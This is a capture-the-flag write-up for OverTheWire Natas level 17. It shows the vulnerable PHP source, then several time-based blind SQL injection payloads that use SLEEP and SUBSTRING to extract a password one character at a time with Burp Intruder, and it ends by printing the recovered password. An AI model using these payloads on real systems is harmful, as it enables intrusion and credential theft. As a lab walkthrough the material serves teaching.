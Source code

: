 # Natas Level 17
This level deals with time based SQL Injection.

## Quest
We are greeted with a simple webpage
![](./images/Level17.png)

Below is the backend code 
```php
<?
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);      // We get no output whatsoever
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

<br/><br/>
## Solution
Reading the code, we can say that we are not presented with any output whatever maybe our input.
> So, for now only one thing comes to my mind - <span id=green>Time Based SQL Injection.</span>


  Our Payload -> `username=natas18" AND SLEEP(10);#`<br/>
We recieve a delayed response if username `natas18` exists, our response comes after 10 seconds
![](./images/Level17_solution.png)

Now we build a little complex query:<br/>
  Our Payload -> `username=natas18" AND IF(ASCII('a')=97, SLEEP(10),0);#`
  
If username `natas18` exists and ascii code of 'a' is 97, return a delayed response. (We get delayed response)
![](./images/Level17.1_solution.png)


So, our Final payload to smuggle passwords is as follow:<br/>
    `username=natas18" AND IF(ASCII(SUBSTRING(password,1,1))=97,SLEEP(10),0);#`
    
![](./images/Level17.2_solution.png)
Above, we found that first character of our password has ascii code 120, i.e. `x`. (using Burp intruder)<br/>
Also note that we filter on "_Response recieved_" column, it conveys the time interval b/w request and response.

Burp intruder settings are exactly same as we did in [Level 15](./Level15.md)

Repeat this 32 times, and we have our password. -> xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
